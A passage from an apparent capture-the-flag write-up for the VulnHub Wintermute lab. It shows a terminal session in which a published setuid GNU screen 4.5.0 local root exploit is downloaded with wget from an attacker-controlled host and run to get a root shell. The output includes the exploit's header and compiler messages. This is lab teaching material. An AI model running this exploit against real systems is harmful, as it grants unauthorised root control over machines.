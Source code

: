 Downlaod the exploit
```
www-data@straylight:/dev/shm/192.168.251.4:8000$ wget 192.168.251.4:8000/41154.sh
--2020-04-19 18:07:28--  http://192.168.251.4:8000/41154.sh
Connecting to 192.168.251.4:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1151 (1.1K) [text/x-sh]
Saving to: '41154.sh'

41154.sh                            0%[                                           41154.sh                          100%[==========================================================>]   1.12K  --.-KB/s    in 0s

2020-04-19 18:07:28 (96.2 MB/s) - '41154.sh' saved [1151/1151]

www-data@straylight:/dev/shm/192.168.251.4:8000$ head 41154.sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
www-data@straylight:/dev/shm/192.168.251.4:8000$ bash 41154.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod' [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid' [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
/tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid' [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
/tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid' [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
/tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator